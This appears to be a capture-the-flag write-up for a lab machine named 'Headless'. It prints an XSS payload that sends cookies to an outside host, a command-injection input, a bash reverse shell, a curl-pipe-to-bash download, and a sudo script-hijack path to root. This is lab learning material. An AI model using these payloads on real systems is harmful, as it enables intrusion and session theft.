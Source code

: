 # Headless

### Reconnaissance

- port 22 SSH
- port 5000 HTTP

### Exploitation

XSS in User-Agent header `<img src=x onerror=fetch('http://10.0.0.1:80/+document.cookie);>`

Command injection in dashboard `date` parameter `date=2024-05-12;whoami`

Host shell on attacker `bash -i >& /dev/tcp/10.0.0.1/443 0>&1` and use `curl http://10.0.0.1:80/shell.sh|bash`
to execute on the target

### Privilege Escalation

`sudo -l` shows the user can execute `/usr/bin/syscheck` with sudo

`/usr/bin/syscheck` checks if `initdb.sh` is running and if it is not, it runs it

Create `initdb.sh`, using the same reverse shell as before with a different port as the contents, then run 
`sudo /usr/bin/syscheck` to get a root shell

### Lessons Learned

- If a page renders any content from a POST request check for XSS!
- Check for command injection in POST requests
